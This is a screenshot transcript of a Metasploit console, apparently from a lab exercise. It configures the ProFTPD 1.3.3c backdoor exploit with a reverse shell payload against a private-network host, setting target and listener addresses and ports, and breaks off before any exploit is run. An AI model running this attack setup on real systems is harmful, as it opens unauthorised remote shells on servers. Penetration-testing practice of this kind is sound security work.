 msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set payload cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show options 

Module options (exploit/unix/ftp/proftpd_133c_backdoor):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT   21               yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOSTS 192.168.178.129
RHOSTS => 192.168.178.129
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RPORT 21
RPORT => 21
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > ifconfig
[*] exec: ifconfig

eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.178.130  netmask 255.255.255.0  broadcast 192.168.178.255
        inet6 fe80::e648:534a:ecad:ec50  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:68:6e:c4  txqueuelen 1000  (Ethernet)
        RX packets 1533  bytes 98412 (96.1 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1617  bytes 101468 (99.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 24  bytes 1440 (1.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 24  bytes 1440 (1.4 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set LHOST 192.168.178.130 
LHOST => 192.168.178.130
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set LPORT 4455
LPORT => 4455
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show options 
